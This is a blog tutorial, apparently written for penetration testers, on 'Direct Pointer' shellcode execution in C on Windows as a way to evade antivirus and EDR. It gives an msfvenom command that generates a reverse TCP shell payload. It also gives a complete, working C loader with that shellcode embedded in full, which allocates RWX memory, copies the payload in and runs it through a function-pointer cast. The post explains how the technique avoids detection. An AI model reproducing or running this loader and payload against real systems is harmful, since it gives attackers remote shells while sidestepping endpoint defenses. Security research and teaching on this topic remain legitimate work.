









## Introduction

In the ever-evolving landscape of cybersecurity, evasion techniques play a critical role in circumventing the watchful eyes of antivirus (AV) and endpoint detection and response (EDR) systems. Nowadays it is crucial to have at least a grasp on the malware development world, since without it, you will have huge problems during internal penetration testing (I will not even touch on red teamings here). 

Currently, with mediocre endpoint protection settings, running useful tools such as Rubeus, Certify or even BloodHound becomes impossible without malware development. Among the arsenal of evasion tactics lies one of my favorite - Direct Pointer execution. This is a subtle yet powerful maneuver that holds the potential to evade even the most vigilant security mechanisms.

!!!
If you want to support my work, feel free to become my [Patreon](https://www.patreon.com/Lsecqt)
!!!

## What is Direct Pointer (DP)
At its core, direct pointer syntax enables attackers to execute malicious code stored within memory buffers, a.k.a shellcode execution. This technique bypasses conventional execution pathways, such as callback function calls or system APIs calls.

This evasion technique operates at a low level of memory manipulation to execute code directly from a memory address pointed to by a buffer. 

Before diving deeper into the Direct Pointer itself, let me first explain what is a shellcode execution, why it is a big deal and what is its genuine workflow.

!!!
Even though the examples you will see in this blog can be replicated with any low level language, we will be using C, since I see it as the best language when it comes to explaining / performing memory operations, malware development or other low level activities.
!!!

## What is a shellcode?
At its core, shellcode is a set of assembly language instructions designed to perform a specific task. Initially named for its ability to spawn a shell, shellcode has evolved to encompass a broad spectrum of functionalities, ranging from executing arbitrary commands to downloading and executing additional malware. Shellcode is typically represented as hex, since it cannot be translated into human readable strings. 



And now here comes the question:
`Do I need to learn assembly in order to create my own shellcode?`

The answer is simple and in the same time not that much: `Depends!`

Knowing assembly language is highly beneficial for creating shellcode, as shellcode is typically written in assembly due to its low-level nature and direct control over system resources. Assembly language provides precise control over the processor's instructions and memory layout, allowing you to craft compact and efficient shellcode tailored to specific architectures.

However, it's not strictly necessary for you to be native in assembly in order to create a shellcode. Several high-level tools, such as `msfvenom` and `donut`, can be used to develop custom shellcode. Of course, the shellcodes, generated from such tools would be extremely signatured by security vendors and much, much easier detectable by them. This is where knowing assembly comes into play. With the ability to craft manual and custom shellcode, your malware could become extremely evasive purely based on the shellcode itself.

!!!
Do NOT get me wrong on that. Evasion is not about a silver bullet (like custom shellcode) that pierces through endpoint protections, but rather a combination of techniques bond together. Having custom shellcode is extremely helpful, but still it must go along with other things, for example indirect syscalls.
!!!

Furthermore, familiarity with assembly language can be extremely valuable when analyzing shellcode or reverse engineering malware. As a tip, AI is extremely good with analyzing shellcodes.



Now, I am also not an assembly guru, and within this blog, the shellcode examples will be generated using the `msfvenom` tool.

### What is shellcode execution?
Shellcode execution refers to the process by which the malicious code (shellcode), is injected and executed within the memory space of a target process. This is the most difficult part from malware development standpoint, since the execution is the most watched action from AV and EDR vendors. And it makes total sense, you cannot achieve code execution, without the execution. 

Shellcodes allows you as a penetration tester to fully customize your malware, including how this shellcode is allocated and then executed from memory. The ability to customize your malware is the key to evasiveness.
The coolest part about the shellcodes, is that they can be used into executing completely everything, from a normal calculator as a POC, up to implants from modern C2 frameworks.

!!!
SUPER DUPER IMPORTANT NOTE:
It does not matter how evasive your shellcode executor is, if they payload itself is not evasive also. This is mostly applicable for C2 payloads. Make sure to chose your C2 wisely based on the environment you are in, and also, customize them!
!!!

## Shellcode Execution workflow

The shellcode execution flow is extremely simple as a concept. In windows you have this things called processes. 



A process represents an instance of a running program. Each process has its own executable image, which typically comes from an .exe file. It manages its resources independently, including memory, CPU time, and input/output operations. 
Processes are isolated from each other, ensuring stability and security by providing separate memory spaces, as well as shared ones. Each process is identified by a unique Process ID (PID) assigned by the operating system. Processes may consist of one or more threads, which are the basic units of CPU execution. 

In theory, if we can inject into a process or create a new one, write our shellcode into its memory space, we would be able to execute it on very low level. Visually represented it looks something like that:



And from this point on, the malware development starts. Currently there are countless numbers of techniques, ones more evasive than others, all trying to achieve the same thing -> execute malicious payload undetected. 

This is getting extremely hard with each day of penetration testing and red teaming. AVs and EDRs are constantly improving, by flagging and thus eliminating formerly effective techniques. With that, the infinite game of cat and mouse begins.

As already mentioned, there are extensive numbers of techniques that allows us as penetration testers, to allocate / write / execute our shellcodes. New techniques are being published each year, and the limit is only the human creativity. In this demo I want to keep things simple and explain how Direct Pointer execution works. For that purpose, we will stick to Win32 APIs.

### What are these Windows APIs (Win32 APIs)

Windows APIs serves as essential toolsets for interaction with the Windows operating system and its underlying components. These APIs are essentially sets of functions and procedures packaged within libraries or DLLs (Dynamic Link Libraries). They enable access to various system resources and services, spanning a wide array of functionalities such as file I/O, networking, device management, and process or memory management.

In a nutshell, Win32 APIs are functions that allows us to go one step deeper into the mechanisms of the Windows OS. One way to look at that is, every time something happens in Windows, the corresponding API is called and used under the hood. For example:

Saving a file with notepad can trigger various Win32 APIs.



Using debugger like WinDBG, its then possible to track the chain of events down until we reach the `syscall` instruction. This is where the switch from user mode to kernel mode is happening. While this is a topic for completely new blog, I just wanted to give a little insight that the Win32 API is just the beginning of series of functions and callbacks down the line. The APIs are just wrapped and easy to use methods, which are also easy to hook and thus, to track. There are again a lot of theory behind bypassing hooking, but we will dive into that in later blog posts.

Now, let's keep it simple!

Since the Direct Pointer works only if executed from the current process, we are going to skip touching on things like process injection. 

Now, before we execute a shellcode, we must first have a one. 

## Implementation
### Generating shellcode

As mentioned, we are not going to dive into assembly for this part, but rather utilize `msfvenom`. This is an amazing tool which has the ability to not only generate a standard shellcodes, but also it can encrypt them and convert them into a language of your choice with huge language support. By default, if no format is specified, the shellcode will be outputted into raw format (.bin file).


!!!
Raw shellcode files can be extremely useful for implementing staging techniques.
!!!

More on staging you can find on this video:
[!embed](https://www.youtube.com/watch?v=OpkLuvx1dw4)

In this case, since we want to integrate this shellcode into our malicious program, we are going to use C as a format, so that the shellcode is directly outputted in such format after creation. This command can be used for the whole generation process:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f c -o shellcode.c
```


Keep note of the payload, `msfvenom` supports large payload sets, but in this time we define the payload to be just a simple reverse shell. So when we execute the payload on a targeted system, we should be able to catch the shell with simple netcat listener. 

It is highly advised, especially if you are learning or testing your new technique, to use payload such as `windows/x64/exec CMD=calc.exe` since it is a smaller shellcode, and is easier to test if your execution method works.

### Combining the pieces

Since we now have our shellcode ready, lets combine the pieces and craft our malicious runner. For this demo, we will not perform any process injection, since the main goal is to explain Direct Pointer execution, which CANNOT support process injection!

The first step is to declare our libraries and then the shellcode:

```C
#include <stdio.h>
#include <windows.h>

unsigned char buf[] = 'msfvenom output';
```

!!!
Just by including `windows.h` into a C program, you can start using all Win32 APIs.
!!!

Then we need to allocate memory within the process address space, in order to write the shellcode into it. This can be done with various Win32 APIs such as `VirtualAlloc` or native C functions such as `malloc`.

Pretty much we are on step 1:


The good thing about Win32 APIs is that they are extremely well documented. By browsing the Microsoft Docs, you can get the functions signatures, and in best cases, example usage. Based on the [docs](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), the `VirtualAlloc` API should be used like that:

```C
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

Translating that to our little POC, this becomes:
```C
LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

While it is highly important to understand its parameters in details, referring to them now will prolong the blog to unimaginable length, so I highly advice you to read the [docs](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) and understand what all these parameters mean.

In a nutshell:
1. We define pointer to memory address as `pAddr` to be equal to the result of `VirtualAlloc` call. 
2. The first parameter is NULL because we do not have the exact memory address from where the allocation to start. By specifying `NULL`, the OS will handle that automatically.
3. The second parameter of the call is about the size of the memory we want to allocate
4. The 3rd parameter is the memory type.
5. And finally the 4th parameter is the memory protection settings. In that case the memory region will be readable, writable and executable. This by itself is extremely bad oppsec practice, but here the goal is not to be oppsec safe!

After we have our memory allocated, it is time to write the shellcode to it.
Yep, we are on step 2:



So far our shellcode is just a string variable, but shellcodes are machine instructions, remember? By sitting there as plain hex string, its not really useful to us.

In order to write it to the memory space of the process, we can once again call Windows APIs such as `WriteProcessMemory` or just call native C functions such as `memcpy`.

!!!
In order to use native C functions such as `memcpy`, you would need to include `stdio.h` library in your code.
!!!

Since we are operating into the same process, calling `memcpy` is considered the better approach. The signature for this function is as follows:

```C
void *memcpy(void *dest, const void * src, size_t n)
```

Which will translate to our code like:

```C
memcpy(pAddr, buf, sizeof(buf))
```

The arguments here are self explanatory, but in a nutshell we copy a variable called `buf` (our shellcode), into the memory region we just allocated `pAddr`(pointing to the beginning of the memory region). 
Keep in mind that the size here is extremely important, if that is messed up, the POC will not work.

And now here comes the funny part - Execution step.



So far as shown in the previous examples (for memory allocationg and write operations) we had various alternative to either use Win32 APIs or native C syntaxes and functions. Here this choice is still present. Usually, when a shellcode is present into the executable memory space of a process, it is enough to start a thread pointing to the allocated memory. 
This can be done with various Win32 APIs such as `CreateThread` or `CreateThreadEx`, but creating a thread is an extremely suspicious behavior. On the other hand, it is not the only way to execute the shellcode. 

What if instead of creating a new thread, we redirect the execution flow of the current thread to the written in memory shellcode? Well this is what the Direct Pointer (DP) really is.

By default, each process has at least 1 thread - the main one. Of course a lot more can be created during runtime, but at least 1 has to permanently exist as long as the process is alive. While APIs such as `CreateThread` are creating a new thread and executing the shellcode from there, the DP is doing quite the opposite.

DP is directly navigating the current thread (main one if the process is single threaded) to execute the shellcode by pointing its execution flow into the memory space of the allocated shellcode. On this assembly level this is done with a [jmp](<https://en.wikipedia.org/wiki/JMP_(x86_instruction)>) instruction. While it sounds scary, the syntax is even scarier at a first glance:

```C
((void(*)())pAddr)();
```

Don't panic, let's break it down:

- **void(*)():** This part declares a function pointer. Here, it specifies that we are dealing with a pointer to a function that returns nothing (void). The `(*)` syntax indicates a pointer to a function, and `void` specifies the return type of the function.
    
- **(void(*)())pAddr:** This part casts the variable `pAddr` to a function pointer of type `(void(*)())`. This casting essentially treats the contents of `pAddr` as if they were a function pointer.
    
- **((void(*)())pAddr)():** Finally, this invokes the function that the `pAddr` has been cast to. The `()` at the end indicates a function call. Since `pAddr` has been cast to a function pointer, this line executes the function that `pAddr` points to.

In other words, this syntax casts the executable memory region to function, and directly executes it by pointing the execution pointer to the start of the function. This C syntax on the assembly level, is literally translated into a jump instruction to the address allocated from `VirtualAlloc`.

With that, our final piece of POC looks like that:
```C
#include <stdio.h>
#include <windows.h>

unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x6e\x89"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";


int main()
{
	LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(pAddr, buf, sizeof(buf));
	((void(*)())pAddr)();
}
```

When executed, the terminal hangs because the main thread is now executing the shellcode, which granted us a reverse shell, which hijacked the execution flow. In more simple term, the shellcode payload is simple and it will lock our application (the main thread in this case) until its running.




## What is the BIG deal about Direct Pointer

In the POC we implemented, there are countless numbers of suspicious artifacts, such as allocating memory with RWX primitives, keeping the shellcode within the binary itself or simply following the basic shellcode execution workflow with known Win32 APIs. All of these can end up flagging our binary, but here comes the fun part, the execution primitives is not the one which is flagged, but the rest!

In the implemented POC, the detections might come from anywhere, but not from the execution part. This is because the DP is extremely hard to be detected. Most AVs and EDRs are relying on mechanisms that can catch the memory allocation and writing primitives. Signatures are scanning the shellcode and memory scanners are scanning what happens in the Windows OS when the payload is executed, but the whole execution primitive in this case is extremely hard to be detected. By using DP, no new threads appear, no suspicious callback functions are called, nor any Win32 APIs methods.

!!!
Disclaimer:
Just by using DP is of course not enough to be evasive, but this is one of my favorite execution techniques.
!!!

I encourage you to take the things from this blog one step further into examining various alternative Win32 APIs. Thankfully, there are already open source projects that can help us with that, one such is [malapi](https://malapi.io/). This project shows various Win32 APIs and for what they can be utilized.

## Conclusion

I think malware development is something that every pentester sooner or later will encounter. Having the knowledge of what is going on under the hood of Windows might take you a while, but its totally worth it especially if you are focused more into internal network testing and Active Directory. 

Direct Pointer (DP) is one of my favorite execution techniques because it is extremely simple to implement, and scary evasive. I do NOT want you to take this for granted and just rely that only by using DP you will evade every AV and EDR, that's not how it works. A lot of work should still be done but definitely DP helps, a LOT!

If you want to support my work, feel free to become my [Patreon](https://www.patreon.com/Lsecqt), or just [Buy Me A Coffee](https://www.buymeacoffee.com/lsecqt)